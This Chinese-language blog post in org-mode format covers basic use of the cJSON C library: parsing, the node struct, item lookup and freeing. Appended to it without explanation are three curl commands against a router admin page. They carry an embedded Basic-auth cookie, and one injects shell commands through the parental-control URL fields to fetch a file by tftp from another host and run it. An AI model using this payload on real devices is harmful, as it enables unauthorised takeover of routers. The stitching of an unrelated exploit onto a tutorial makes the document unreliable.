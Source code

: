 #+TITLE: cJSON库的使用
#+DATE: 2017-04-24
#+LAYOUT: post
#+TAGS: JSON
#+CATEGORIES: JSON

* 前言
  cJSON在openwrt中使用，和前端交互时使用比较多。其基本的使用也很简单，数据结构也很简单。json每个对象都是一个名字
* 解析
** 构建JSON数据结构cJSON
   有两种方法，一种是parse字符串来得到，即：
   #+BEGIN_SRC C
   cJSON* root = cJSON_Parse(my_json_string);
   #+END_SRC
   cJSON的定义是：
   #+BEGIN_SRC C
     typedef struct cJSON {
         struct cJSON *next,*prev;
         struct cJSON *child;

         int type;

         char *valuestring;
         int valueint; /* writing to valueint is DEPRECATED, please use cJSON_SetNumberValue instead */
         double valuedouble;

         char *string;
     } cJSON;
   #+END_SRC
   可以看到cJSON其实是一棵N-tree
   数组的关键没有名称，只能用索引引用。对于cjson中的数组和对象起始数据结构上没有本质区别，只在与索引方式。
** 查询数据结构的内容
   首先，要了解数据结构的内容，cJSON的每一项都是cJSON，没有树叶，所以值要从中获取，但是我们没法知道是否是树叶，所以要手动确认。得到子对象的方法是使用cJSON_GetObjectItem，得到一个新的
   #+BEGIN_SRC C
   cJSON_GetObjectItem(format, "frame rate")
   #+END_SRC
   以功能而言是将指针指向的，双向链表便利一遍。其实一个object指的是一个链表，
   一个节点有三种语义：对象、数字、字符串。它们使用一个字段名来引用
** 析构数据结构
   c没有自动内存管理，所以要手动析构，使用函数cJSON_Delete(root);

sudo curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=true' 'http://192.168.1.1/'

sudo curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?ctrl_enable=1&parent_mac_addr=00-00-00-00-00-02&Page=1'

curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Modify=0&Page=1' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?child_mac=00-00-00-00-00-01&lan_lists=888&url_comment=test&url_0=;cd%20/tmp;&url_1=;tftp%20-gl%20aa%20192.168.1.100;&url_2=;sh%20aa;&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed=1&SelIndex=0&Page=1&rule_mode=0&Save=%B1%A3+%B4%E6'
